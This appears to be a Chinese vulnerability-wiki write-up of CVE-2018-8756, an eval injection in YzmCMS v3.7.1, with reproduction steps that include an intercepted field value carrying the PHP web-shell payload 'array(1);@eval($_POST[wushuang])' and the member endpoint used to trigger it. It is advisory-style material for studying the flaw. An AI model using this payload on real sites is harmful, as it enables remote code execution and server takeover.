 （CVE-2018-8756）YzmCMS v3.7.1 Eval注入漏洞
===========================================

一、漏洞简介
------------

YzmCMS是中国程序员袁志蒙开发的一套开源的CMS（内容管理系统）。 YzmCMS
3.7.1版本中的yzmphp/core/function/global.func.php文件存在安全漏洞。远程攻击者可借助index.php?m=member&c=member\_content&a=init请求的POST数据中的PHP代码利用该漏洞执行任意代码。

二、漏洞影响
------------

YzmCMS v3.7.1

三、复现过程
------------

首先，从网站后台登陆，/index.php?m=admin&c=index&a=init，然后选择模型管理，选
择模型 ID 为 1 的那个字段管理，然后添加字段，像下面这张图一样填表。

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-8756)YzmCMSv3.7.1Eval注入漏洞/media/rId24.png)

接着需要拦截数据包，像图片一样，

    修改 fieldtype 为 datetime，修改 datesest 为 array(1);@eval($_POST[wushuang])

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-8756)YzmCMSv3.7.1Eval注入漏洞/media/rId25.png)

接着我们需要一个用户可以触发这个漏洞，选择会员管理，选择会员管理，添加用户，
填表如下。

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-8756)YzmCMSv3.7.1Eval注入漏洞/media/rId26.png)

现 在 我 们 已 经 完 成 了 准 备 工 作 ， 接 着 以 用 户 身 份 登 陆 ，
guici/123456,/index.php?m=member&c=index&a=login，点击在线投稿，接着你就可以执行任
意代码通过输入 post 数据
wushuang！/index.php?m=member&c=member\_content&a=init

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-8756)YzmCMSv3.7.1Eval注入漏洞/media/rId27.png)

参考链接
--------

> <https://github.com/guiciwushuang/yzmcms/blob/master/yzmcms_eval_injection_chinese.pdf>
